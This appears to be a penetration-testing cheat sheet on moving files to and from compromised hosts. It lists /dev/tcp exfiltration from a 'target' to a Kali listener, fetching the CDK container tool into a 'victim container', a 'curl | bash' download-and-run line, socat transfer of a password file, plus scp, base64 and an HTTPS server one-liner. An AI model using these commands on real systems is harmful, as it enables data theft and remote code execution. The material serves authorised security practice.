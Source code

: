 ### /dev/tcp

{% code overflow="wrap" fullWidth="true" %}
```bash
# On target (considering outbound port 8295 is allowed on the target)
cat file > /dev/tcp/192.168.49.106/8295 
nc -nlvp 8295 > file # on Kali

# First, host CDK binary on your host with public IP.
nc -lvp 999 < cdk #on your host
# Inside the victim container execute
cat < /dev/tcp/(your_public_host_ip)/(port) > cdk

bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /youfile.sh HTTP/1.1\r\nHost: ip\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh" 
```
{% endcode %}

### Misc

```bash
python3 -m http.server 8001
curl $IP/$FILE | bash
curl $IP/$FILE -o $PATH
wget $IP/$FILE -O $PATH

base64 $FILE #--> copy it
# ON KALI LOCAL:
vi file.b64 #--> paste it
base64 -d file.b64 > file

# SCP--------------------
# copy important.txt from our machine to a remote machine 
scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt
# copy a file from a remote computer to our machine
scp ubuntu@192.168.1.30:/home/ubuntu/documents.txt notes.txt

# SOCAT 
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt # transfer a file
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create # receive a file
```

## Python HTTPS Server

{% code overflow="wrap" fullWidth="true" %}
```python
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```
{% endcode %}
